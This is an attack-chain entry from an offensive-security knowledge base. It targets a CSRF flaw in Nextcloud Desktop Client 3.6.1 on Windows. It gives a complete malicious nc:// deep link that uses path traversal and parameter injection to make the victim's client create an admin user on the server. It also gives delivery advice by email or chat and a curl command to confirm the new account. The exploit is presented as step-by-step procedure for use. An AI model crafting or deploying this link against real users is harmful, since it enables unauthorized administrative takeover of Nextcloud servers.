

---
tags:
  - csrf
  - nextcloud
  - deep-link
  - path-traversal
  - parameter-injection
  - user-creation
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Windows
  - Desktop Application
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Craft-and-Deliver-Malicious-Nextcloud-Deep-Link]]'
  - '[[procedures/Verify-Unauthorized-User-Creation-on-Nextcloud-Server]]'
step_count: 2
techniques:
  - '[[Drive-by Compromise]]'
  - '[[Exploitation for Client Execution]]'
  - '[[File and Directory Discovery]]'
updated_at: '2025-12-14T17:27:43.064Z'
description: >-
  Exploits a CSRF vulnerability in Nextcloud Desktop Client 3.6.1 on Windows
  using crafted deep links to perform arbitrary POST requests to the Nextcloud
  server, enabling unauthorized actions like creating an admin user.
skill_level: intermediate
impact_level: high
id: 2a0a400b-331c-4594-bb99-7e047923e59e
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[Exploitation for Client Execution]]'
  - '[[File and Directory Discovery]]'
---
# CSRF via Malicious Deep Link in Nextcloud Desktop Client to Create Admin User

Multi-stage attack chain demonstrating exploitation of a CSRF vulnerability in the Nextcloud Desktop Client 3.6.1 on Windows, allowing attackers to trick victims into sending arbitrary POST requests to the Nextcloud server via malicious deep links. This can lead to unauthorized server-side actions, such as creating a new admin user, by leveraging path traversal and parameter injection in the client's deeplink handling.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (relies on email/chat for delivery and built-in client features)

### Target Environment

- Windows OS with Nextcloud Desktop Client 3.6.1 installed
- Accessible Nextcloud server (e.g., via OCS API on port 443 or 80)
- Victim must be authenticated to the Nextcloud server via the desktop client

### Initial Access Requirements

- Ability to send links to victim (e.g., via email or chat)
- Knowledge of victim's Nextcloud instance URL and username
- No prior server access needed; exploits client-server trust

## Detailed Attack Procedures

### Step 1: Craft and Deliver Malicious Deep Link
procedure: [[procedures/Craft-and-Deliver-Malicious-Nextcloud-Deep-Link]]

**Objective**: Trick the victim into opening a specially crafted deeplink that triggers an unauthorized POST request to the Nextcloud server, exploiting CSRF via path traversal and parameter injection.

**Instructions**: Construct the deeplink using the format `nc://open/{username}@{instance}/.{path-traversal}&{injected-params}&{log-file}?token={traversed-endpoint}`. Adjust the victim's username, instance URL, and injected parameters for user creation. Deliver via email or chat.

For example, use this deeplink structure:

```plaintext
nc://open/admin@pentest.cloud.wtf/.\&userid=hacker&password=h4ck3rPassw0Rd!&displayName=hacker&email=mail@example.com&groups[]=admin&\..\.owncloudsync.log?token=../../../../../../../ocs/v1.php/cloud/users
```

This causes the client to resolve the token to `/ocs/v1.php/cloud/users` via path traversal and inject parameters into the POST body.

**Expected Output**: The Nextcloud Desktop Client opens and silently sends the POST request to the server without user interaction beyond clicking the link.

**Success Indicators**:
- Client launches upon link click
- No error messages in client logs

### Step 2: Verify Unauthorized User Creation
procedure: [[procedures/Verify-Unauthorized-User-Creation-on-Nextcloud-Server]]

**Objective**: Confirm the exploitation by checking for the newly created user on the server, validating admin group membership and potential access.

**Instructions**: Access the Nextcloud admin interface or use the OCS API to query users. If the attacker has server access, log in with the new credentials to test.

For API verification, send a GET request to the users endpoint:

```bash
curl -X GET "https://pentest.cloud.wtf/ocs/v2.php/cloud/users" -u "admin:password" -H "OCS-APIRequest: true"
```

Look for the 'hacker' user in the response and check groups via `/ocs/v2.php/cloud/groups`.

**Expected Output**: XML or JSON response listing users, including the new 'hacker' user with admin group.

**Success Indicators**:
- New user appears in user list
- User is assigned to admin group
- Login with new credentials succeeds

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protections in desktop client to execute server-side actions
2. Created unauthorized admin user via injected POST parameters
3. Demonstrated path traversal in deeplink token handling for endpoint redirection

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise
- [[Exploitation for Client Execution]] Exploitation for Client Execution
- [[File and Directory Discovery]] File and Directory Discovery (via path traversal)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
